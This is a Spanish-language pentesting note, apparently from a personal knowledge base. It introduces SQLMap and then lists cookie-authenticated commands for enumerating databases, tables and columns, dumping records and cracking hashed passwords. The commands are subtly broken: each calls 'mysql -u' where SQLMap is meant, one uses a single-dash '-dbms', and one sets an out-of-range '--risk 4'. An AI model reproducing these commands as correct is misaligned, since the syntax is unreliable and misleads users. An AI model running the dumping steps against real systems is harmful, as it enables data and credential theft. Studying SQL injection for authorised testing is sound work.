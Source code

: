 ----
- Tags: #tools #automatic
---

# ¿ Que es **SQLMap** ? 

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos. 

SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación. 

Al utilizar SQLMap, lo profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

----

# Automatización 

Por ejemplo, podríamos estar logeados en una página la cual es vulnerable a [[SQLI - (Inyecciones SQL)]] y hacer uso de **SQLMap** para automatizar las inyecciones de manera automatica: 

## Listar DataBases de una URL con cookies: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka"
```

## Aclarar el gestor de base de datos:
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -dbms mysql 
```

## Aceptar por default las preguntas que realiza SQLMap: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --batch 
```

## Enumerar tablas de una base de datos: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} --tables
```

## Enumerar columnas de una tabla:
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} --columns
```

## Enumerar registros de una columna: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} -C {colum1},{column2} --dump
```
#### Si se piden listar registros de contraseñas y estas están hasheadas, se comenzara un proceso de fuerza bruta para intentar crackear dichas credenciales. 

## Enumerar de manera más profunda: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --dbms mysql --risk 4 --level 5
```
